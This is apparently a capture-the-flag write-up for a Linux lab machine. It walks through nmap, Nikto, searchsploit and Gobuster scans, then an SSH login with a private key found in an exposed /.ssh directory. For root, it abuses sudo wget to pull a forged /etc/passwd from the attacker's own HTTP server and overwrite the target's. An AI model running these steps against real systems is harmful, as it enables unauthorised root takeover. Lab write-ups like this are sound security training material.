 #Linux #Wget

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.207.235
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 22/tcp ssh
* 80/tcp http

![image](https://user-images.githubusercontent.com/99097743/171080626-c28a88e2-45bf-4be1-a7f1-6d927ee7b2b8.png)


Interesting info: A person named Jessie is mentioned in the website source code:

![image](https://user-images.githubusercontent.com/99097743/171075119-d4d404da-8220-4061-ad97-5bd0af1dd0eb.png)

Let's try **Nikto** for vulnerability scanning. 

Nikto is an open source web server and web application scanner. Nikto can perform comprehensive tests against web servers for multiple security threats, including over 6700 potentially dangerous files/programs. Nikto can also perform checks for outdated web servers software, and version-specific problems. Here are some of the commonly used commands:

![image](https://user-images.githubusercontent.com/99097743/171077871-a03baaac-6541-4648-b22a-aa9856cbcfa1.png)

Nikto results reveal that the Apache server is outdated -v 2.4.18 

![image](https://user-images.githubusercontent.com/99097743/171078750-8a26be16-d1db-492d-bf75-f2c04eb39023.png)

A **searchsploit** analysis confirms an existing vulnerability on the Apache server. 

![image](https://user-images.githubusercontent.com/99097743/171079027-f7f5dd4c-4afe-4b23-a06c-72b79222cb65.png)

Details of the CARPE (DIEM): CVE-2019-0211 Apache Root Privilege Escalation are summarized in the following link:

https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html

**Gobuster** search suggests a hidden directory **/sitemap** (Status 301)

![image](https://user-images.githubusercontent.com/99097743/171080870-11321b68-cb53-4930-8421-0a595b952689.png)

A further **Gobuster** search on `http://10.10.207.235/sitemap` suggests a hidden **/.ssh** directory hosting a private key! 

![image](https://user-images.githubusercontent.com/99097743/171082095-e325cb85-02a7-4028-a57d-dc2dbafa9d4d.png)

What we need to do now are:

1) Change file permissions for the id_rsa as `chmod 600 jessie_id_rsa`
2) Login ssh using the private key: `ssh -i path/to/key_file username@remote_host`

We can assume that the private keys belongs to Jessie -- This name was mentioned in a comment line in website source code (see abobe)

![image](https://user-images.githubusercontent.com/99097743/171085363-81619d9f-110a-4f47-b960-14ecb9ad9df5.png)

We now have the user flag captured, let's explore the vulnerabilities for privilege escalation, let's try `sudo -l` to see the allowed commands

![image](https://user-images.githubusercontent.com/99097743/171085848-4e010d8f-f21b-457f-be9c-ed7303f629d3.png)

It seems that we can use GTFOBins Wget vulnerability as explained here: https://gtfobins.github.io/gtfobins/wget/

![image](https://user-images.githubusercontent.com/99097743/171088818-d8ec1a56-82cc-4aaf-a0c9-ee43117274e3.png)

Here are steps that can be followed:

1) Copy `etc/passwd` in the local host, generate a password for the root account, and include it as password hash in passwd:

![image](https://user-images.githubusercontent.com/99097743/171087622-38672abd-b16e-44e2-a833-1db586e0030a.png)

![image](https://user-images.githubusercontent.com/99097743/171089509-76761a52-80ba-430a-b7df-d7d6b6e8d64a.png)


2) Open an HTTP server on the local host: `sudo python3 -m http.server 80`

3) Transfer the passwd to target machine: `sudo wget http://10.18.123.93/passwd -O /etc/passwd`

![image](https://user-images.githubusercontent.com/99097743/171089684-54d7a62a-9d2a-42b3-b205-8b1655981162.png)

4) Elevate to root: `su root` -- Password above

